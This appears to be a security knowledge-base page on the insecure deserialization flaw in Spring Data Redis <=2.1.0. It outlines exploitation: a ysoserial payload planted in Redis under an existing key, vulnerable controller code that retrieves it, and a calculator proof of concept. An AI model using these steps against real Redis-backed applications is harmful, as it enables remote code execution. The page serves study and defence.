 # Spring Data Redis overview

Spring Data Redis, part of the larger Spring Data family, provides easy configuration and access to Redis from Spring applications. Spring Data Redis first serializes data before writing data to Redis. By default, Java native serialization is used for serialization.

{% embed url="https://github.com/spring-projects/spring-data-redis/blob/master/src/main/asciidoc/reference/redis.adoc#serializers" %}

# Insecure deserialization

When Spring Data Redis retrieves data from Redis, the stored bytecode is deserialized. Since the target class is not checked or filtered during deserialization it can lead to remote code execution.

Example of exploitation:

1. Generate payload with [ysoserial](https://github.com/frohoff/ysoserial)
2. Write the generated payload in Redis:

    ```java
    // Try to choose a key that already exists in Redis so that code execution can start when Spring retrieves data
    redis.set("\xac\xed\x00\x05t\x00\brebeyond", payload);
    ```

3. Trigger or wait for Spring to retrieve data, example of vulnerable code:

    ```java
    @Controller
    public class HelloController {
   
        protected RedisTemplate<Serializable, Serializable> redisTemplate;

        @GetMapping("/")
        public String index() {
            Object result = redisTemplate.opsForValue().get("rebeyond");
            return "index";
        }
    }
    ```

4. Server starts calculator successfully:

    ![](img/redis-rce-calc-poc.png)
    
    The call stack is as follows:
    
    ![](img/redis-rce-stacktrace-poc.png)

# References

- [Spring Data Redis <=2.1.0 Deserialization Vulnerability](https://xz.aliyun.com/t/2339)